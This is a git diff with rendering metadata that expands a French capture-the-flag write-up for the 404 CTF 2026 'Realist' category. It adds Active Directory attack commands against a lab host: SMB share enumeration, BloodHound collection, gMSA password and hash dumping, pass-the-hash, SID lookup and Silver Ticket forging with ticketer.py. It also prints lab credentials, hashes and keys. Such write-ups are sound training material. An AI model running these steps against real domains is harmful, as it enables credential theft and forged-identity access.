

Before and after one commit to SaAbyy/SaAbyy.github.io, a Jekyll site: the page built from _writeups/404 CTF 2026 - Realist Category.md, in a window 1280 px wide and 1400 px high, scrolled down 4182 px. Shown: the whole window at 94% size, without its empty margins (1-983 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Enhance writeup with enumeration and exploitation details
Added detailed enumeration and exploitation steps for the 404 CTF 2026 Realist Category writeup, including commands for SMB access, BloodHound analysis, and Silver Ticket forging.

````diff
--- a/_writeups/404 CTF 2026 - Realist Category.md
+++ b/_writeups/404 CTF 2026 - Realist Category.md
@@ -171,20 +171,57 @@
 **Cible :** `10.0.10.190`
 **Credentials :** `accord6490_404Player` / `L5883dpefus&@#`
 
-Le compte initial a `ReadGMSAPassword` sur `svc_broker$` :
+### Enumération initiale
 
 ```bash
-# Hash NTLM : 593749912b41ece1498731f50f9d58bd
-# Clé AES256 : 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291
+nxc smb 10.0.10.190 -u 'accord6490_404Player' -p 'L5883dpefus&@#' --shares
+# DevTools : READ
 ```
 
-`svc_broker$` a la délégation contrainte vers `HTTP/gateway.pasteur.lab`. `legacy_admin` est désactivé donc S4U2Proxy impossible, nous devons faire un **Silver Ticket**.
+Le partage `DevTools` contient un `README.txt` décrivant le service `PasteurBroker`, une API HTTP authentifiée Kerberos sur `gateway.pasteur.lab:19432`.
+
+Le service exige :
+- Un ticket pour le SPN `HTTP/gateway.pasteur.lab`
+- L'identité `legacy_admin`
+- L'appartenance au groupe `lab_keepers` (RID 1104) dans le PAC
+
+### BloodHound - ReadGMSAPassword
 
 ```bash
+bloodhound-python -u 'accord6490_404Player' -p 'L5883dpefus&@#' -d CTFCORP.LOCAL -c all -ns 10.0.10.190
+```
+
+Notre compte a `ReadGMSAPassword` sur `svc_broker$`, qui possède une délégation contrainte vers `HTTP/gateway.pasteur.lab`.
+
+### Dump du compte GMSA
+
+```bash
+gMSADumper.py -u 'accord6490_404Player' -p 'L5883dpefus&@#' -d CTFCORP.LOCAL
+# svc_broker$ :: 593749912b41ece1498731f50f9d58bd
+# svc_broker$ :: aes256 : 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291
+```
+
+Vérification :
+
+```bash
+nxc smb 10.0.10.190 -u 'svc_broker$' -H '593749912b41ece1498731f50f9d58bd'
+```
+
+### Récupération du SID
+
+```bash
+bloodyAD -u 'svc_broker$' -p ':593749912b41ece1498731f50f9d58bd' -d CTFCORP.LOCAL --host 10.0.10.190 get object "lab_keepers" --attr objectSid
+# S-1-5-21-2991091012-709284574-3735152529-1104
+```
+
+### Forge du Silver Ticket
+
+```bash
+# RID legacy_admin = 1105, lab_keepers = 1104
 ticketer.py -aesKey 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291 -domain-sid S-1-5-21-2991091012-709284574-3735152529 -domain CTFCORP.LOCAL -spn HTTP/gateway.pasteur.lab -user-id 1105 -groups 1104,513,512 legacy_admin
 ```
 
-Configuration Kerberos pour le realm cross-domain :
+### Configuration Kerberos
 
 ```ini
 # /etc/krb5.conf
@@ -193,10 +230,20 @@
     dns_canonicalize_hostname = false
     rdns = false
 
+[realms]
+    CTFCORP.LOCAL = {
+        kdc = 10.0.10.190
+        admin_server = 10.0.10.190
+    }
+
 [domain_realm]
+    .ctfcorp.local = CTFCORP.LOCAL
+    ctfcorp.local = CTFCORP.LOCAL
     .pasteur.lab = CTFCORP.LOCAL
     pasteur.lab = CTFCORP.LOCAL
 ```
+
+### Récupération du flag
 
 ```bash
 export KRB5CCNAME=/workspace/legacy_admin.ccache
@@ -206,7 +253,6 @@
 ```
 404CTF{S1lv3r_P4st3ur_Gh0st_1d3nt1ty_L3g3ndr3}
 ```
----
 
 ## Le Rayonnement de Becquerel
 
````
